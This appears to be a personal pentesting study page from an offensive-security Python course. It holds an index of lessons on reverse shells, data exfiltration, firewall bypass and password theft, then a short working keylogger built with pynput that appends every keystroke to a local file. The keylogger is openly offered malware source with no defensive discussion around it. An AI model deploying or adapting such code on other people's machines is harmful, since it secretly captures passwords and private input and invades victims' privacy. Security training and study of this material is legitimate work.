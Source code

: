 ```yaml
---
title: Simple keylogger in python
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - keylogger
---
```


# Simple keylogger in python

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

#Ref: https://pythonhosted.org/pynput/keyboard.html#monitoring-the-keyboard

from pynput.keyboard import Key, Listener

def on_press(key):
    fp=open("keylogs.txt","a") #create a text file and append the key in it
    print(key)
    fp.write(str(key)+"\n")
    fp.close()
    
with Listener(on_press=on_press) as listener: # if key is pressed, call on_press function
    listener.join()

```